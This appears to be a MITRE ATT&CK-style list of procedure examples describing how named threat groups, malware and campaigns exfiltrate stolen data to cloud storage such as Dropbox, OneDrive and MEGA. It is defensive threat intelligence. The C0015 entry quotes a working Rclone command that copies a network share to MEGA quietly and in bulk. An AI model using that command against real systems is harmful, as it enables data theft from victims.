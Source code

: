 - [G0065] Leviathan: Leviathan has used an uploader known as LUNCHMONEY that can exfiltrate files to Dropbox.
- [G1024] Akira: Akira will exfiltrate victim data using applications such as Rclone.
- [G1014] LuminousMoth: LuminousMoth has exfiltrated data to Google Drive.
- [S1040] Rclone: Rclone can exfiltrate data to cloud storage services such as Dropbox, Google Drive, Amazon S3, and MEGA.
- [S0629] RainyDay: RainyDay can use a file exfiltration tool to upload specific files to Dropbox.
- [S1023] CreepyDrive: CreepyDrive can use cloud services including OneDrive for data exfiltration.
- [S0037] HAMMERTOSS: HAMMERTOSS exfiltrates data by uploading it to accounts created by the actors on Web cloud storage providers for the adversaries to retrieve later.
- [G0094] Kimsuky: Kimsuky has exfiltrated stolen files and data to actor-controlled Blogspot accounts.
- [G0027] Threat Group-3390: Threat Group-3390 has exfiltrated stolen data to Dropbox.
- [S1170] ODAgent: ODAgent can use an attacker-controlled OneDrive account for exfiltration.
- [G0142] Confucius: Confucius has exfiltrated victim data to cloud storage service accounts.
- [G1005] POLONIUM: POLONIUM has exfiltrated stolen data to POLONIUM-owned OneDrive and Dropbox accounts.
- [G1001] HEXANE: HEXANE has used cloud services, including OneDrive, for data exfiltration.
- [C0015] C0015: During C0015, the threat actors exfiltrated files and sensitive data to the MEGA cloud storage site using the Rclone command `rclone.exe copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M`.
- [S0660] Clambling: Clambling can send files from a victim's machine to Dropbox.
- [G1021] Cinnamon Tempest: Cinnamon Tempest has uploaded captured keystroke logs to the Alibaba Cloud Object Storage Service, Aliyun OSS.
- [S0538] Crutch: Crutch has exfiltrated stolen data to Dropbox.
- [S1172] OilBooster: OilBooster can exfiltrate files to an actor-controlled OneDrive account via the Microsoft Graph API.
- [S0340] Octopus: Octopus has exfiltrated data to file sharing sites.
- [G0102] Wizard Spider: Wizard Spider has exfiltrated stolen victim data to various cloud storage providers.
- [G0119] Indrik Spider: Indrik Spider has exfiltrated data using Rclone or MEGASync prior to deploying ransomware.
- [G0010] Turla: Turla has used WebDAV to upload stolen USB files to a cloud drive. Turla has also exfiltrated stolen files to OneDrive and 4shared.
- [G0125] HAFNIUM: HAFNIUM has exfiltrated data to file sharing sites, including MEGA.
- [S0363] Empire: Empire can use Dropbox for data exfiltration.
- [G1006] Earth Lusca: Earth Lusca has used the megacmd tool to upload stolen files from a victim network to MEGA.
- [G1003] Ember Bear: Ember Bear has used tools such as Rclone to exfiltrate information from victim environments to cloud storage such as `mega.nz`.
- [G1022] ToddyCat: ToddyCat has used a DropBox uploader to exfiltrate stolen files.
- [G0128] ZIRCONIUM: ZIRCONIUM has exfiltrated stolen data to Dropbox.
- [C0040] APT41 DUST: APT41 DUST exfiltrated collected information to OneDrive.
- [S0651] BoxCaon: BoxCaon has the capability to download folders' contents on the system and upload the results back to its Dropbox drive.
- [C0022] Operation Dream Job: During Operation Dream Job, Lazarus Group used a custom build of open-source command-line dbxcli to exfiltrate stolen data to Dropbox.
- [S1102] Pcexter: Pcexter can upload stolen files to OneDrive storage accounts via HTTP `POST`.
- [G0114] Chimera: Chimera has exfiltrated stolen data to OneDrive accounts.
- [G1015] Scattered Spider: Scattered Spider has exfiltrated victim data to the MEGA file sharing site.
- [S0240] ROKRAT: ROKRAT can send collected data to cloud storage services such as PCloud.
- [S0635] BoomBox: BoomBox can upload data to dedicated per-victim folders in Dropbox.
- [G0046] FIN7: FIN7 has exfiltrated stolen data to the MEGA file sharing site.
